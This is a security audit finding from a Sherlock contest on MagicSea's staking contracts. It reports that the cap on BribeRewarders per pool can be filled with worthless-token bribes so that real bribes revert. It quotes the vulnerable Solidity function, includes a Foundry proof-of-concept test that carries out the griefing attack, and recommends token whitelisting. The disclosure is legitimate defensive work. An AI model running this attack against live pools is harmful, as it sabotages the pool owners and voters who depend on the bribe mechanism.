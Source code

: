 Slow Maroon Gibbon

Medium

# Malicious users can exploit the bribe mechanism by awarding worthless tokens as a bribe and reaching the max bribe limit.

## Summary
Malicious users or competitors can create multiple BribeRewarder contracts with worthless tokens, register them as the pool’s bribe rewards for a particular voting period, and hit the maximum reward limit. Since the tokens are worthless, no one will find the bribe profitable, and thus no one will vote in the pool.
## Vulnerability Detail
If we look into the `Voter:onRegister` function, it has a check to ensure that only a specific number of BribeRewarders are registered for the pool during a particular voting period. In the test, the `MAX_BRIBES_PER_POOL` is set to 5, meaning anyone can bribe for the pool but can only use a maximum of 5 tokens.
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/Voter.sol#L141
```jsx
function onRegister() external override {
    IBribeRewarder rewarder = IBribeRewarder(msg.sender);

    _checkRegisterCaller(rewarder);

    uint256 currentPeriodId = _currentVotingPeriodId;
    (address pool, uint256[] memory periods) = rewarder.getBribePeriods();
    for (uint256 i = 0; i < periods.length; ++i) {
        // TODO check if rewarder token + pool is already registered

        require(periods[i] >= currentPeriodId, "wrong period");
        require(
            _bribesPerPriod[periods[i]][pool].length + 1 <=
->>            Constants.MAX_BRIBES_PER_POOL,
            "too much bribes"
        );
        _bribesPerPriod[periods[i]][pool].push(rewarder);
    }
}

```

Since anyone can register this rewarded contract, a malicious actor or competing pool owner can create 5 rewarded contracts with worthless tokens and register them as bribes.

This will make the bribe mechanism fail because no one will vote for that pool as the bribe rewards are worthless. The pool manager cannot do anything to attract people because the max bribe limit is already reached.

### POC

Here is a simple test to demonstrate how this attack can come to play. 

Paste this in `BribeRewarder.t.sol`

```jsx
function testGriefBirbes() public {
        /* ---------------------------- WORTHLESS TOKENS ---------------------------- */

        IERC20 rewardToken1 = IERC20(new ERC20Mock("Reward Token 1", "RT1", 6));
        IERC20 rewardToken2 = IERC20(new ERC20Mock("Reward Token 2", "RT2", 6));
        IERC20 rewardToken3 = IERC20(new ERC20Mock("Reward Token 3", "RT3", 6));
        IERC20 rewardToken4 = IERC20(new ERC20Mock("Reward Token 4", "RT3", 6));
        IERC20 rewardToken5 = IERC20(new ERC20Mock("Reward Token 5", "RT5", 6));

        BribeRewarder rewarder1 = BribeRewarder(
            payable(address(factory.createBribeRewarder(rewardToken1, pool)))
        );
        BribeRewarder rewarder2 = BribeRewarder(
            payable(address(factory.createBribeRewarder(rewardToken2, pool)))
        );
        BribeRewarder rewarder3 = BribeRewarder(
            payable(address(factory.createBribeRewarder(rewardToken3, pool)))
        );
        BribeRewarder rewarder4 = BribeRewarder(
            payable(address(factory.createBribeRewarder(rewardToken4, pool)))
        );
        BribeRewarder rewarder5 = BribeRewarder(
            payable(address(factory.createBribeRewarder(rewardToken5, pool)))
        );

        ERC20Mock(address(rewardToken1)).mint(address(this), 20e18);
        ERC20Mock(address(rewardToken2)).mint(address(this), 20e18);
        ERC20Mock(address(rewardToken3)).mint(address(this), 20e18);
        ERC20Mock(address(rewardToken4)).mint(address(this), 20e18);
        ERC20Mock(address(rewardToken5)).mint(address(this), 20e18);

        ERC20Mock(address(rewardToken1)).approve(address(rewarder1), 20e18);
        ERC20Mock(address(rewardToken2)).approve(address(rewarder2), 20e18);
        ERC20Mock(address(rewardToken3)).approve(address(rewarder3), 20e18);
        ERC20Mock(address(rewardToken4)).approve(address(rewarder4), 20e18);
        ERC20Mock(address(rewardToken5)).approve(address(rewarder5), 20e18);

        rewarder1.fundAndBribe(1, 1, 10e18);
        rewarder2.fundAndBribe(1, 1, 10e18);
        rewarder3.fundAndBribe(1, 1, 10e18);
        rewarder4.fundAndBribe(1, 1, 10e18);
        rewarder5.fundAndBribe(1, 1, 10e18);

        /* --------------------------- ACTUAL REWARD TOKEN -------------------------- */

        IERC20 actualRewardToken = IERC20(
            new ERC20Mock("Reward Token Actual ", "ART", 6)
        );

        BribeRewarder rewarderActual = BribeRewarder(
            payable(
                address(factory.createBribeRewarder(actualRewardToken, pool))
            )
        );

        ERC20Mock(address(actualRewardToken)).mint(address(this), 20e18);
        ERC20Mock(address(actualRewardToken)).approve(
            address(rewarderActual),
            20e18
        );
        // The transation fail and the bribe for this period is unsuccessful
        vm.expectRevert("too much bribes");
        rewarderActual.fundAndBribe(1, 1, 10e18);
    }
```

Here malicious actors create a 5 rewarder with worthless tokens and hit the limit. When an actual pool owner wants to register the actual reward token the transaction fails.

## Impact
The bribe mechanism will break. 

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/Voter.sol#L141

## Tool used

Manual Review

## Recommendation
Either remove the max bribe limit or allow only the whitelisted tokens as bribe rewards.
